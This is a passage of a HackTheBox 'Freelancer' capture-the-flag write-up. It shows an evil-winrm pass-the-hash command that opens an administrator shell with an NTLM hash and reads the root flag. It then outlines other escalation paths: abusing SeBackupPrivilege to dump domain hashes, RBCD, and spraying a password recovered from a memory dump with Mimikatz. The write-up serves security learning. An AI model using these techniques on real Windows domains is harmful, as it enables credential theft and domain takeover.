 ### Shell

With the administrator’s NTLM hash I can get a shell over WinRM:

```

oxdf@hacky$ evil-winrm -i freelancer.htb -u administrator -H 0039318f1e8274633445bce32ad1a290

Evil-WinRM shell v3.4

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents>

```

And read `root.txt`:

```
*Evil-WinRM* PS C:\Users\Administrator\desktop> type root.txt
5d21119c************************

```

## Alternative Paths to Administrator

### Overview

The path using RBCD is actually not the intended path. The author’s path (that I was unaware of until just before Freelancer retired) was to recover a deleted user with `SeBackupPrivilege`.

There’s another unintended path in Freelancer that involves a plaintext password in the memory dump file available as mikasaAckerman. I found this initially while looking at the dump with WindDbg and Mimikatz (which I’ll show below), but wasn’t able to find a use for the password. It was ryuki on the HTB discord who tipped me off to using variations of the password to find the password for *many* users on the domain. Thanks to ryuki and to [DebugPrivilege](https://x.com/DebugPrivilege) for the memory dump tips and [awesome repo of tutorials](https://github.com/DebugPrivilege/InsightEngineering).

```

flowchart TD;
    subgraph identifier[" "]
      direction LR
      start1[ ] --->|intended| stop1[ ]
      style start1 height:0px;
      style stop1 height:0px;
      start2[ ] --->|unintended| stop2[ ]
      style start2 height:0px;
      style stop2 height:0px;
    end
    A[Shell as\nmikasaAckerman]-->B(<a href='#dump-analysis'>Find Password\nfor lorra199</a>);
    B-->C[<a href="#shell">Shell as\nlorra199</a>];;
    C-->H(<a href="#restore-lizakazanof">Recover liza.kazanof\nAccount</a>);
    H-->I(<a href="#reset-password--shell">Reset liza.kazanof\nPassword</a>);
    I-->J[<a href="#reset-password--shell">Shell as liza.kazanof</a>];
    J--SeBackupPrivilege-->K(<a href="#exploit-sebackupprivilege">Dump Domain\nHashes</a>)
    K-->E;
    C-->D(<a href="#exploit-via-rbcd">RBCD</a>)
    D-->E[<a href="#shell-1">Shell as\nAdministrator</a>]
    A-->F(<a href="#recover-password">Find Password</a>)
    F-->G(<a href="#spray-password---failure">Spray Password\nVariation</a>)
    G-->D

linkStyle default stroke-width:2px,stroke:#FFFF99,fill:none;
linkStyle 1,9,10,11,12,13 stroke-width:2px,stroke:#4B9CD3,fill:none;
style identifier fill:#1d1d1d,color:#FFFFFFFF;
```